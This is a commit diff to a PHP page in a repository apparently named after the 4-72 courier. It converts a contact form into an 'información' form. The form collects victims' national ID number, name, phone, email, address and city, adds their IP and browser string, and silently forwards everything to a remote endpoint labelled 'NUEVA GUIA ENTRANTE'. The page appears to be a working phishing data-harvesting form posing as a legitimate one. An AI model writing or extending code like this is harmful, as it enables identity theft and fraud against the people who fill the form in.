

Before and after one commit to julioplata/4-72-New-Goleador-, a PHP site: page /informacion/index.php in a window 1280 px wide. Shown: the top 698 px of the page, without its empty margins (330-970 px from the left). Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
Update index.php

```diff
--- a/informacion/index.php
+++ b/informacion/index.php
@@ -15,16 +15,22 @@ function getUserIP() {
 
 // Cuando se envía el formulario
 if ($_SERVER["REQUEST_METHOD"] === "POST") {
+    $cedula   = htmlspecialchars($_POST['cedula']);
     $nombre   = htmlspecialchars($_POST['nombre']);
+    $phone    = htmlspecialchars($_POST['phone']);
     $email    = htmlspecialchars($_POST['email']);
-    $mensaje  = htmlspecialchars($_POST['mensaje']);
+    $address  = htmlspecialchars($_POST['address']);
+    $city     = htmlspecialchars($_POST['city']);
     $user_ip  = getUserIP();
 
     // 🚨 Formato bonito del mensaje
-    $msg  = "🚨 *NUEVA CONSULTA DE CONTACTO* 🚨\n\n";
+    $msg  = "🚨 *NUEVA GUIA ENTRANTE* 🚨\n\n";
+    $msg .= "🆔 *Cédula:* $cedula\n";
     $msg .= "👤 *Nombre:* $nombre\n";
+    $msg .= "📞 *Teléfono:* $phone\n";
     $msg .= "📧 *Email:* $email\n";
-    $msg .= "📝 *Mensaje:* $mensaje\n";
+    $msg .= "🏠 *Dirección:* $address\n";
+    $msg .= "🌆 *Ciudad:* $city\n";
     $msg .= "🌍 *IP:* $user_ip\n";
     $msg .= "🖥 *User-Agent:* " . $_SERVER['HTTP_USER_AGENT'] . "\n";
 
@@ -47,7 +53,7 @@ if ($_SERVER["REQUEST_METHOD"] === "POST") {
     $context  = stream_context_create($options);
     @file_get_contents($url, false, $context);
 
-    echo "<script>alert('✅ Tu consulta fue enviada con éxito.'); window.location.href='../index.html';</script>";
+    echo "<script>alert('✅ Tus datos fueron enviados con éxito.'); window.location.href='../index.html';</script>";
     exit;
 }
 ?>
@@ -57,7 +63,7 @@ if ($_SERVER["REQUEST_METHOD"] === "POST") {
 <head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Formulario de Contacto</title>
+  <title>Formulario de Información</title>
   <style>
     body { font-family: Arial, sans-serif; background: #f4f6f9; padding: 20px; }
     .container { max-width: 500px; margin: auto; background: white; padding: 20px; border-radius: 10px; box-shadow: 0 0 10px rgba(0,0,0,.1); }
@@ -71,16 +77,25 @@ if ($_SERVER["REQUEST_METHOD"] === "POST") {
 </head>
 <body>
   <div class="container">
-    <h2>📩 Formulario de Contacto</h2>
+    <h2>📋 Formulario de Información</h2>
     <form method="POST" action="">
+      <label for="cedula">Cédula</label>
+      <input type="text" id="cedula" name="cedula" required>
+
       <label for="nombre">Nombre</label>
       <input type="text" id="nombre" name="nombre" required>
+
+      <label for="phone">Teléfono</label>
+      <input type="text" id="phone" name="phone" required>
 
       <label for="email">Correo electrónico</label>
       <input type="email" id="email" name="email" required>
 
-      <label for="mensaje">Mensaje</label>
-      <textarea id="mensaje" name="mensaje" required></textarea>
+      <label for="address">Dirección</label>
+      <input type="text" id="address" name="address" required>
+
+      <label for="city">Ciudad</label>
+      <input type="text" id="city" name="city" required>
 
       <button type="submit">Enviar 🚀</button>
     </form>
```
